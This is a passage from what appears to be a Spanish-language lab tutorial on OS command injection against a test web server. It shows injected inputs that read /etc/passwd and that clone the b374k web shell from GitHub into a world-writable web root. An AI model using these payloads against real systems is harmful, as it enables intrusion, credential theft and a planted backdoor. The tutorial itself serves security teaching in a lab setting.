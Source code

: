 ![](Images/img4.png)

**Probar más comandos:**

~~~
8.8.8.8 & cat /etc/passwd
~~~

![](Images/img3.png)

Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales.

**Intentar descargar y ejecutar malware:**

En este caso, para nuestro ejemplo, vamos a otorgar permisos de escritura a /var/www/html a la máquina lamp_webserver

~~~
sudo chmod -R 777 /var/www/html/
~~~

Introducimos codigo para concatenar la ip del servidor dns de Google, con descargar el proyecto git b374k: 
~~~
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~
